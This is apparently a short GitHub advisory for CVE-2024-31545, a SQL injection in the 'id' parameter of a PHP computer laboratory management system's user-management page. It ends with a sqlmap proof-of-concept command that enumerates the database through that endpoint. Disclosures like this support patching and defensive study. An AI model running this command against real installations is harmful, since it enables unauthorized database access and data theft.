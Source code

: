 
# CVE-2024-31545 SQLi in Computer Laboratory Management System
+ Exploit Author: Emirhan Mutlu
# Vendor Homepage
+ https://www.sourcecodester.com/php/17268/computer-laboratory-management-system-using-php-and-mysql.html
# Software Link
+ https://www.sourcecodester.com/php/17268/computer-laboratory-management-system-using-php-and-mysql.html
# Overview
+ A SQL Injection vulnerability in Computer Laboratory Management System v1.0 allows attackers to execute arbitrary SQL commands on the database server and exfiltrate sensitive data.
# Vulnerability Details
+ CVE ID: CVE-2024-31545
+ Vulnerable Endpoint: /php-lms/admin/?page=user/manage_user&id=6
+ Parameter: id
# Description
+ The lack of proper input validation and sanitization on the 'id' parameter allows an attacker to craft SQL injection queries and gaining unauthorized access to the database.

# Proof of Concept (PoC) : 
+ `sqlmap -u "http://localhost/php-lms/admin/?page=user/manage_user&id=6" --batch --level 5 --risk 3 --dbms=mysql --current-db --threads 10`
